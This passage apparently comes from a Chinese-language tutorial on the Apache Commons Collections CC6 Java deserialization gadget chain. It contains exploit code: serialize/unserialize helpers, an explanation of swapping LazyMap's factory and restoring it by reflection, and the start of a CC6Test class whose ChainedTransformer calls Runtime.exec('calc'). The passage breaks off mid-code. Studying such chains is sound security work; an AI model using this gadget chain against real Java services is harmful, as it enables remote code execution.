 ```bash
        map2.put(tiedMapEntry,"bbb");

        ;


    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

#### 问题一：

因为序列化我们没有必要让他进行命令执行，而 hashMap 中的 put 方法会直接调用下去，所以这里我们可以在序列化的时候破环链子的某一个参数，防止他命令执行，然后在执行完 put 以后再利用反射将参数改回来

这里将 LazyMap 中对应参数 factory 要传入的 chainedTransformer 来进行替换，然后再通过反射将 factory 的值修改过来：

```bash
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6Test {
    public static void main(String[] args) throws Exception{


        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,new ConstantTransformer(1));

```